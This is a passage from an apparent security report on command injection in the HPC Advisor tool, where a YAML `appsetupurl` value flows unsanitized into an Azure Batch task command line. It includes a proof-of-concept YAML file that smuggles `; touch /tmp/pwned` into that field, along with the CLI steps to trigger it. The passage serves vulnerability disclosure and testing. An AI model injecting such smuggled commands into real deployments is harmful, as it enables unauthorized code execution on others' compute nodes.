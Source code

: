        task = batchmodels.TaskAddParameter(
           id=task_id,
           user_identity=user,
           command_line=task_commands[0], # User input directly embedded here
       )
       ```
    6. This task is added to the Azure Batch job, and the `command_line` is executed on the compute node.
    7. **Visualization:**
       ```
       UserInput (ui_defaults.yaml) --> appsetupurl --> create_setup_task() --> command_line (shell command with appsetupurl) --> Azure Batch Task Execution --> Command Injection
       ```

* Security Test Case:
    1. **Setup HPC Advisor**: Ensure the HPC Advisor tool is set up and runnable, either via CLI or GUI (if accessible).
    2. **Create Malicious User Input File**: Create a file named `malicious_ui_defaults.yaml` with the following content, replacing `<YOUR_SUBSCRIPTION_ID>` and `<YOUR_REGION>` with your Azure details:
       ```yaml
       subscription: <YOUR_SUBSCRIPTION_ID>
       skus: [Standard_HC44rs]
       rgprefix: vuln-test
       appsetupurl: "https://raw.githubusercontent.com/Azure/hpcadvisor/main/examples/matrixmult/appsetup_matrix.sh; touch /tmp/pwned" # Malicious URL with command injection
       nnodes: [1]
       appname: matrixmult
       tags:
         appname: matrixmult
         version: v1
       region: <YOUR_REGION>
       createjumpbox: false
       taskselector:
         policy: sequential
         paralleltasks: 1
       ppr: 100
       appinputs:
         appinteractions: 1
         appmatrixsize: [100]
       ```
       **Note**: The `appsetupurl` is modified to append `; touch /tmp/pwned` to the legitimate URL. This will attempt to execute the `touch /tmp/pwned` command after downloading and (attempting to) execute the legitimate script.
    3. **Run Deployment and Data Collection**: Execute the following commands in the HPC Advisor CLI:
       ```bash
       ./hpcadvisor deploy create -u malicious_ui_defaults.yaml
       DEPLOYMENT_NAME=$(./hpcadvisor deploy list | grep vuln-test) # Capture deployment name, may need adjustment based on output
       ./hpcadvisor collect -n $DEPLOYMENT_NAME -u malicious_ui_defaults.yaml
       ```
    4. **Access Compute Node (Optional - for verification)**: To definitively confirm command injection, you would ideally need to access one of the Azure Batch compute nodes.  Direct SSH access might not be enabled by default. If a jumpbox or similar access is set up, you can attempt to SSH into a compute node.
    5. **Check for File Creation**: If you can access a compute node, check for the existence of the file `/tmp/pwned`. If the file exists, the command injection was successful. Alternatively, observe the task logs (stdout/stderr) in Azure Batch for any signs of the `touch` command execution or errors that might indicate successful command injection.
    6. **Expected Result**: If the vulnerability is present, the `touch /tmp/pwned` command will be executed on the Azure Batch compute node, and the `/tmp/pwned` file will be created (if you have access to verify). Even without direct access, errors in task execution or unexpected behavior could indicate successful command injection.
